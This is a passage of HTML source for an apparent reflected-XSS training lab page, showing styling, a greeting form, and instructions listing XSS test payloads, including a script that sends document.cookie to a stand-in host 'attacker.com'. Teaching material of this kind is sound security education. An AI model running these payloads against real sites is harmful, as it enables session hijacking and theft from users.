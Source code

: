 ```html
            margin-right: 10px;
            border: 1px solid #ccc;
            border-radius: 4px;
        }
        button {
            padding: 8px 16px;
            border: none;
            background-color: #007BFF;
            color: #fff;
            border-radius: 4px;
            cursor: pointer;
        }
        button:hover {
            background-color: #0056b3;
        }
        .output {
            margin-top: 20px;
            padding: 10px;
            border: 1px solid #ccc;
            background-color: #f9f9f9;
            border-radius: 4px;
        }
        .alert {
            color: #721c24;
            background-color: #f8d7da;
            border: 1px solid #f5c6cb;
            padding: 10px;
            border-radius: 4px;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>Reflected XSS Lab</h1>
        <p>Enter your name to get a personalized greeting:</p>
        <form id="xssForm">
            <input type="text" id="name" name="name" placeholder="Enter your name">
            <button type="submit">Submit</button>
        </form>

        <div class="output" id="output"></div>

        <div class="instructions">
            <h2>Instructions</h2>
            <p>To test for reflected XSS, enter the following payloads into the input field:</p>
            <ul>
                <li><strong>Basic Alert:</strong> <code>&lt;script&gt;alert('XSS')&lt;/script&gt;</code></li>
                <li><strong>Image Payload:</strong> <code>&lt;img src="x" onerror="alert('XSS')"&gt;</code></li>
                <li><strong>Event Handler:</strong> <code>&lt;input type="text" onfocus="alert('XSS')" autofocus&gt;</code></li>
                <li><strong>Stealing Cookies:</strong> <code>&lt;script&gt;fetch('https://attacker.com/steal?cookie=' + document.cookie)&lt;/script&gt;</code></li>
            </ul>
            <p><strong>Note:</strong> The payloads above are for demonstration purposes. Always ensure that you have permission to test for vulnerabilities on any system.</p>
        </div>
    </div>

    <script>
        // Get the form and output elements
        const form = document.getElementById('xssForm');
```